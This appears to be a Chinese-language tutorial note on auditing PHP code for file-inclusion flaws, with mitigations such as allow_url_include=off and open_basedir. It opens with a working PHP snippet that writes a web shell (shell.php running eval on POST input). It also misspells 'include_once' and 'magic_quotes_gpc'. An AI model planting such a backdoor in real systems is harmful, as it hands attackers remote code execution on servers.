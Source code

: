 ```php
<?php
    fputs(fopen('./shell.php','w'),'<?php @eval($_POST[123]) ?>');
?>
```

# 代码审计方法

## 文件包含用到的函数

```php
include()		//使用此函数，只有代码执行到此函数时才将文件包含进来，发生错误时只警告并继续执行。
inclue_once()	//功能和前者一样，区别在于当重复调用同一文件时，程序只调用一次。

require()		//使用此函数，只要程序执行，立即调用此函数包含文件发生错误时，会输出错误信息并立即终止程序。
require_once()	//功能和前者一样，区别在于当重复调用同一文件时，程序只调用一次。
```

代码审计的时候全局搜索以上函数

如果是基于图像上传的 ，要搜`$_FILES` 变量， 因为PHP处理上传文件的功能，基本都与$_FILES有关。

查看目录结构，重点关注includes、modules等文件夹，查看index.php等文件是否**动态调用**过这些内容，变量是否可控。

# 修复方式

> 1. 禁止远程文件包含 `allow_url_include=off`
> 2. 配置 `open_basedir=指定目录`，限制访问区域。
> 3. 过滤`../`等特殊符号
> 4. 修改Apache日志文件的存放地址
> 5. 开启魔术引号 `magic_quotes_qpc=on`
> 6. 尽量不要使用动态变量调用文件，直接写要包含的文件。
